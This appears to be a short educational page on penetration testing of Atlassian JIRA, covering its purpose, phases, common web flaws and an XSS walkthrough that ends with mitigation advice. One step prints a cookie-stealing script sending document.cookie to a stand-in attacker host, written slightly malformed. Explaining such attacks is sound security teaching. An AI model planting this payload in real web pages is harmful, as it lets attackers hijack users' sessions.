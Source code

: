 # JIRA pentesting


# 👉 Overview

---

### 👀 What ?

JIRA Pentesting refers to the process of carrying out penetration tests on JIRA software to identify potential vulnerabilities that could be exploited by cyber attackers. JIRA, a project management tool developed by Atlassian, is widely used for tracking issues and managing projects. Hence, ensuring its security is of paramount importance.


### 🧐 Why ?

JIRA Pentesting is crucial as it helps in uncovering security flaws that could potentially lead to unauthorized access, data leakage, and other security incidents. Given the critical role of JIRA in project management, a breach could have severe implications on business operations, including project delays, financial losses, and reputational damage.


### ⛏️ How ?

JIRA Pentesting involves a series of steps. First, information gathering where you identify the target system and gather as much information as possible. Next is scanning, where you use automated tools to identify vulnerabilities. After that, you exploit these vulnerabilities either manually or using automated tools. Lastly, you report your findings, detailing the vulnerabilities found and the steps taken to exploit them.


### ⏳ When ?

JIRA Pentesting is best conducted during the development phase of the software to catch and fix vulnerabilities early on. However, it should also be done periodically, especially after major updates or changes in the software.


# ⚙️ Technical Explanations

---

JIRA Penetration Testing, or Pentesting, is a comprehensive process aimed at identifying potential vulnerabilities in the JIRA software that could be exploited by cyber attackers. JIRA, developed by Atlassian, is a widely used project management tool, making its security paramount.

Understanding the intricacies of the JIRA software, including its architectural design, functionalities, and potential weak points, is crucial for the pentester. This knowledge is used to simulate cyber attacks and exploit vulnerabilities.

Various techniques are used during the testing process. SQL injection involves manipulating the software’s database by injecting malicious SQL code. Cross-Site Scripting (XSS) enables attackers to inject malicious scripts into webpages viewed by other users, potentially leading to unauthorized access or data theft. Cross-Site Request Forgery (CSRF) tricks the victim into submitting a malicious request, leading to potential unauthorized commands performed on behalf of the user.

The main goal of JIRA Pentesting is to identify as many vulnerabilities as possible and understand the potential impact of their exploitation. The process doesn't end with the identification of vulnerabilities. It extends to leveraging these vulnerabilities to understand the extent of potential damage or unauthorized access that could be achieved.

Once the testing phase is complete, a detailed report is prepared. This report includes the identified vulnerabilities, their severity, potential implications, and recommended mitigation strategies. This document serves as a roadmap for the development team to address the identified security weaknesses, thus bolstering the software's overall security posture.

JIRA Pentesting should be conducted periodically and especially after major software updates or changes. This ensures that any new vulnerabilities introduced during these updates are identified and addressed promptly, maintaining the software's robust security.

Let's consider an example of Cross-Site Scripting (XSS) vulnerability in the JIRA software:

1. **Identifying the Target**: Let's say the pentester identifies a form in JIRA that accepts user input, such as a project description field.
2. **Testing for Vulnerability**: The pentester then inputs a basic XSS payload to test for vulnerability. This might look something like `<scriptalert('XSS')</script`. If the software is vulnerable, this script will execute when the input is rendered, displaying a popup alert with the text 'XSS'.
3. **Exploiting the Vulnerability**: If the software is indeed vulnerable, the pentester can then proceed to exploit this vulnerability. For example, they might use a more sophisticated script to steal session cookies. This might look something like `<scriptdocument.location='https://attacker.com/steal.php?cookie='+document.cookie;</script`. This script, when executed, sends the user's session cookie to the attacker's server, potentially allowing the attacker to hijack the user's session.
4. **Reporting**: The pentester includes this vulnerability in their report, detailing the steps taken to identify and exploit it, as well as its potential implications (e.g., session hijacking, unauthorized access).
5. **Mitigation**: The report also includes recommended mitigation strategies. For XSS vulnerabilities, this might include implementing proper output encoding, validating and sanitizing user inputs, and using modern frameworks that automatically escape XSS by design.

This example showcases the detailed steps involved in uncovering, exploiting, and mitigating a specific vulnerability during a JIRA Pentest.
